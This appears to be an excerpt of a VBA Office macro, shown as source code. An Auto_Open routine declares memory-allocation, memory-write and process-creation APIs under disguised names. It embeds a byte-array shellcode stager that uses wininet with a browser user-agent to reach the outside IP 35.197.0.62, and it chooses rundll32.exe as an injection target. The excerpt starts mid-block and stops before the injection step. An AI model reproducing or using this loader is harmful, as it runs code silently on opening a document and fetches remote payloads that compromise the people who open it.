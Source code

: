 ```vb
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49, _
13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48,80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1, _
-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4, _
-117,1,-48,-119,68,36,36,91,91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1, _
-43,49,-1,87,87,87,87,87,104,58,86,121,-89,-1,-43,-23,-124,0,0,0,91,49,-55,81,81,106,3,81,81,104,80,0,0,0,83,80,104,87,-119,-97, _
-58,-1,-43,-21,112,91,49,-46,82,104,0,2,64,-124,82,82,82,83,82,80,104,-21,85,46,59,-1,-43,-119,-58,-125,-61,80,49,-1,87,87,106,-1,83,86, _
104,45,6,24,123,-1,-43,-123,-64,15,-124,-61,1,0,0,49,-1,-123,-10,116,4,-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1, _
-43,49,-1,87,106,7,81,86,80,104,-73,87,-32,11,-1,-43,-65,0,47,0,0,57,-57,116,-73,49,-1,-23,-111,1,0,0,-23,-55,1,0,0,-24,-117,-1, _
-1,-1,47,110,56,115,67,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,85,115,101,114,45,65,103,101,110,116,58,32,77,111,122,105,108,108,97,47,53,46,48,32,40,99,111,109,112,97,116,105,98,108,101,59,32,77, _
83,73,69,32,57,46,48,59,32,87,105,110,100,111,119,115,32,78,84,32,54,46,49,59,32,84,114,105,100,101,110,116,47,53,46,48,59,32,76,66, _
66,82,79,87,83,69,82,41,13,10,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0, _
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,104,-16,-75,-94,86,-1,-43,106,64,104,0,16,0,0, _
104,0,0,64,0,87,104,88,-92,83,-27,-1,-43,-109,-71,0,0,0,0,1,-39,81,83,-119,-25,87,104,0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43, _
-123,-64,116,-58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-87,-3,-1,-1,51,53,46,49,57,55,46,48,46,54,50,0,0,0,0,0)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If
```
